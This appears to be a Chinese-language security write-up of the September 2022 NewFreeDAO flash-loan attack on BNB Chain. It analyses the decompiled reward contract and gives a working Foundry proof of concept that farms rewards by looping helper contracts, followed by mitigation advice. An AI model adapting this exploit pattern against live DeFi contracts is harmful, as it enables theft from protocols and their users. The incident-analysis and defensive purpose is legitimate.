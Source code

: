 ```yaml
---
layout: post
category: attack_events
---
```

# NewFreeDAO@falshloan@reward

## 事件背景

NewFreeDAO未开源的奖励合约遭受了闪电贷攻击。奖励合约是指：存款时间越长、持有代币越多，用户可以获得的奖励代币就越多。

- 时间：2022.09.08
- 损失金额：$125M

## 交易

- 攻击者EOA账户：[0x22c9736d4fc73a8fa0eb436d2ce919f5849d6fd2](https://bscscan.com/address/0x22c9736d4fc73a8fa0eb436d2ce919f5849d6fd2 ) 
- 攻击合约：[0xa35ef9fa2f5e0527cb9fbb6f9d3a24cfed948863](https://bscscan.com/address/0xa35ef9fa2f5e0527cb9fbb6f9d3a24cfed948863)
- 存在漏洞的奖励合约（未开源）：[0x8b068e22e9a4a9bca3c321e0ec428abf32691d1e](https://bscscan.com/address/0x8b068e22e9a4a9bca3c321e0ec428abf32691d1e ) 
- 攻击事件hash：[0x1fea385acf7ff046d928d4041db017e1d7ead66727ce7aacb3296b9d485d4a26](https://bscscan.com/tx/0x1fea385acf7ff046d928d4041db017e1d7ead66727ce7aacb3296b9d485d4a26)
- 涉及的池子
  - WBNB-USDT：[0x16b9a82891338f9ba80e2d6970fdda79d1eb0dae](https://bscscan.com/address/0x16b9a82891338f9ba80e2d6970fdda79d1eb0dae ) 
  - USDT-NFD：[0x26c0623847637095655b2868c3182b2285bdaeaf](https://bscscan.com/address/0x26c0623847637095655b2868c3182b2285bdaeaf)
- 赃款转移：获利的4481枚WBNB中的2000枚兑换成55.7万枚USDT
  - [0x8c035fc9c3d944b3dd4a0ea721c119240cb624e79b7625a16173ad6682410599](https://bscscan.com/tx/0x8c035fc9c3d944b3dd4a0ea721c119240cb624e79b7625a16173ad6682410599 ) 
  - [0xda4b4de6ecacfe9b8b60167a2010630aeec103ab51920eb2e1b94ba1fef6c95b](https://bscscan.com/tx/0xda4b4de6ecacfe9b8b60167a2010630aeec103ab51920eb2e1b94ba1fef6c95b )

## 资金流向

因为此次交易涉及到的地址和资金太多了，仅截取大额资金流向（小额的都是-0.0000000000000001）

![image-20230831201352363](07.NewFreeDAO@falshloan@reward/image-20230831201352363.png)

## 攻击过程

1.黑客通过闪电贷获得250个WBNB

![image-20230831202421780](07.NewFreeDAO@falshloan@reward/image-20230831202421780.png)

2.在pancake中，将闪电贷得到的所有WBNB换成USD，然后进一步换成NFD，得到6313508个NFD

![image-20230831203350611](07.NewFreeDAO@falshloan@reward/image-20230831203350611.png)

3.利用合约漏洞

![image-20230831204005407](07.NewFreeDAO@falshloan@reward/image-20230831204005407.png)

4.然后就是不断地创建辅助合约，重复相同的攻击获利

![image-20230831204205532](07.NewFreeDAO@falshloan@reward/image-20230831204205532.png)

## 攻击详细分析

从攻击过程我们可以分为三部分：闪电贷借来资金，创建辅助合约并发送资金到辅助合约，辅助合约调用漏洞合约的`0x6811e3b9()`进行获利。因此，此次攻击的重点也就只有漏洞合约的`0x6811e3b9()`，我们接下来对它进行分析。

![image-20230831204916576](07.NewFreeDAO@falshloan@reward/image-20230831204916576.png)

由于这个漏洞合约并没有开源，因此我们对他进行[反编译](https://library.dedaub.com/decompile?md5=6909ade6e0864fd7845e35a0650eaa19)，分析结果如下图，大致意思如下：

- 由于调用一次`0x6811e3b9()`获取利润奖励之后，调用者的时间戳将被更新，也就是说你领取完了这段时间内的奖励，再次领取将会出现零奖励的情况。对于这个问题，黑客采用的方式是：用攻击合约不断创建新的辅助合约，将资金转到辅助合约，用辅助合约来调用`0x6811e3b9()`，因为每一个没有调用过此方法的地址，其时间戳都将被设置为`owner_d[msg.sender] = stor_6`。
- v3是实际发送的奖励金额，是根据项目方的公式来计算得到的，但是我看到计算方式`_SafeDiv()`仅仅是简单的除法，应该会存在价格操纵的可能性（只是本次攻击并没有涉及到）。
- 模式很像是项目方会奖励给到拥有NFD的用户：用户拥有越多的NFD，拥有的时间越长，得到的奖励就越多。但是这种计算奖励的方式过于简单，容易被黑客投机取巧，就比如这次的闪电贷攻击，黑客通过闪电贷在短时间内急剧增加NFD余额，并且可以立刻判断和领取奖励。比较合适的方法比如是采用快照的方式，或者对拥有者进行时间加权等。

![image-20230831211923376](07.NewFreeDAO@falshloan@reward/image-20230831211923376.png)

调用之后就获利了（其中一个辅助合约）

![image-20230831212819983](07.NewFreeDAO@falshloan@reward/image-20230831212819983.png)

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "../interface.sol";
import "./attackHelper.sol";

contract Attacker is Test {

    IPancakeRouter public pancakeRouter = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));
    IERC20 public wbnb = IERC20(address(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c));
    IDVM public DVM_flashloan = IDVM(address(0xD534fAE679f7F02364D177E9D44F1D15963c0Dd7));
    address public usdt = 0x55d398326f99059fF775485246999027B3197955;
    address public nfd = 0x38C63A5D3f206314107A7a9FE8cBBa29D629D4F9;
    address constant toAttack = 0x8B068E22E9a4A9bcA3C321e0ec428AbF32691D1E;

    address public attacker = 0x22C9736D4Fc73A8fa0EB436D2ce919F5849D6fD2;

    function setUp() public {
        vm.createSelectFork("bsc", 21_140_434);

        vm.label(address(pancakeRouter), "pancakeRouter");
        vm.label(address(wbnb), "wbnb");
        vm.label(address(DVM_flashloan), "DVM_flashloan");
        vm.label(address(usdt), "usdt");
        vm.label(address(nfd), "nfd");
        vm.label(address(toAttack), "toAttack");
    }

    function test_Exploit() public {
        console.log("[before flashloan] address(this) WBNB balance",wbnb.balanceOf(address(this)));

        // 进行闪电贷，获得WBNB
        bytes memory data = abi.encode(DVM_flashloan, wbnb, 250 * 1e18);
        // 写接口的时候，flashLoan()没有returns(bool)!!!!!!!!!
        DVM_flashloan.flashLoan(0, 250 * 1e18, address(this), data);
        
        console.log("[after pay back flashloan] address(this) WBNB balance",wbnb.balanceOf(address(this)));
    }

    // 闪电贷回调函数，攻击逻辑写在这里
    function DVMFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external{
        console.log("[get flashloan] address(this) WBNB balance",wbnb.balanceOf(address(this)));

        // 将得到的WBNB换成NFD
        address[] memory path = new address[](3);
        path[0] = address(wbnb);
        path[1] = usdt;
        path[2] = nfd;
        IERC20(wbnb).approve(address(pancakeRouter), type(uint256).max); // 交换之前需要approve给router
        pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            quoteAmount, 0, path, address(this), block.timestamp
        );

        // 不断创建辅助合约来攻击
        for (uint256 i = 0; i < 50; i++) {
            AttackHelper attackHelper = new AttackHelper();
            uint256 nfdAmount = IERC20(nfd).balanceOf(address(this));
            IERC20(nfd).transfer(address(attackHelper), nfdAmount);
            attackHelper.attack();
        }

        // 查看本攻击合约的NFD余额
        uint256 nfdBalance = IERC20(nfd).balanceOf(address(this));

        // 将NFD换回成WBNB
        path[0] = nfd;
        path[1] = usdt;
        path[2] = address(wbnb);
        IERC20(nfd).approve(address(pancakeRouter), type(uint256).max);
        pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            nfdBalance, 0, path, address(this), block.timestamp
        );

        // 闪电贷还钱
        console.log("[after attack] address(this) WBNB balance", wbnb.balanceOf(address(this)));
        wbnb.transfer(msg.sender, 250 * 1e18);

        // 看看跟攻击事件中的获利是否相同
        assertEq(2952971303206254291601, wbnb.balanceOf(address(this)));
    }

}
```

```solidity
pragma solidity ^0.8.10;

import "../interface.sol";

contract AttackHelper {
    address constant toAttack = 0x8B068E22E9a4A9bcA3C321e0ec428AbF32691D1E;
    address constant nfd = 0x38C63A5D3f206314107A7a9FE8cBBa29D629D4F9;

    function attack() external {
        // 调用漏洞合约的方法获利
        toAttack.call(abi.encode(bytes4(0x6811e3b9)));

        // 将本金和获利一同发送到攻击合约
        uint256 bal = IERC20(nfd).balanceOf(address(this));

        IERC20(nfd).transfer(msg.sender, bal);
    }
}
```

## 建议

- 领取奖励的方法应该设置防止闪电贷攻击，采用快照、或时间加权、时间锁等方式
- （本次攻击并没有涉及，但是存在此问题）计算奖励数量不应该这么简单的用一个除法来计算，应该使用加权等方式，否则很有可能出现价格操纵的问题













